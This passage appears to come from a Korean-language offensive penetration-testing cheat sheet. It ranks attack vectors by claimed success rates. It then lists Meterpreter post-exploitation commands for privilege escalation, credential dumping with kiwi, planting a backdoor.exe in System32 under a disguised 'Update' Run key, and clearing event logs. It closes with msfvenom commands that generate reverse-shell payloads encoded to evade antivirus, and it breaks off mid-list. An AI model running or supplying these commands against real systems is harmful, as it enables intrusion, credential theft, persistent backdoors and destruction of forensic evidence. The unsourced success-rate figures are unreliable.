 2. **웹 애플리케이션** (80% 성공률)

   - 디렉토리 브루트포스
   - 파일 업로드 취약점
   - Struts2/Apache 취약점

3. **크리덴셜 공격** (70% 성공률)

   - SSH 브루트포스
   - RDP 브루트포스
   - 기본 크리덴셜 시도

4. **클라이언트 사이드** (피싱시 60% 성공률)
   - Office 매크로
   - HTA 파일
   - PowerShell 스크립트

### 필수 Post-Exploitation 작업

```bash
# 세션 안정화
migrate <explorer_pid>

# 권한 상승
getsystem

# 크리덴셜 덤핑
load kiwi
creds_all

# 지속성 확보
upload backdoor.exe C:\\Windows\\System32\\
reg setval -k HKEY_LOCAL_MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Run -v "Update" -t REG_SZ -d "C:\\Windows\\System32\\backdoor.exe"

# 로그 삭제
clearev
```

## 🛡️ AV 우회 핵심 기법

### 성공률 높은 조합 (실무 검증됨)

1. **PowerShell + Base64** (90% 우회)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=4444 -f psh-cmd | base64 -w 0
```

2. **HTA + PowerShell** (85% 우회)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.50 LPORT=4444 -f hta-psh
```

3. **템플릿 인젝션** (80% 우회)

